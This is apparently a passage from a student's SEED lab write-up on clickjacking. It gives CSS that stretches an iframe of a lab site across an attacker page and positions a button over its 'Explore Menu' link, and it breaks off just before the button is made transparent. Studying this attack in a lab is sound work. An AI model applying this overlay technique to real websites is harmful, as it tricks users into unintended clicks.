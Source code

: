   ```css
  iframe {
    width: 100vw; /* occupy 100% of the viewport width */
    height:100vh; /* occupy 100% of the viewport height */
    border: none; /* remove borders from the iframe */
    position: absolute; /* ensure the iframe is positioned independently */
  }
  ```

- test the confuguration by loading the malicious website. From the screenshots below, we can see that the cloning was a success.

  ***`www.cjlab.com`***

  ***`www.cjlab-attacker.com`***

With the iframe inserted, the attacker's website `www.cjlab-attacker.com` looks like the benign website `www.cjlab.com`

<br>

### Position a button over the target area

With the website already cloned, the next step is to create a button that will reside over the iframe.

```css
button{
    /* Provided button code in SEED lab. */
    position: absolute;
    border: none;
    color: white;
    padding: 35px 35px;
    text-align: center;
    font-size: 40px;
    border-radius: 15px;
}
```

**image**

However, the malicious button needs to cover the target area (in this case, "Explore Menu") and needs to be invisible. To achieve this, I do the followiwng:

- modify the webpage css file to make the button cover the target area by adding the below to the css file

  ```css
  button{
    ... /* existing code snippet. */
    margin: 8em 0px 0px 1em; /* margin: top right bottom left */
  }
  ```

  **image**

- modify the webpage css file to make the button transparent by adding the below to the css file
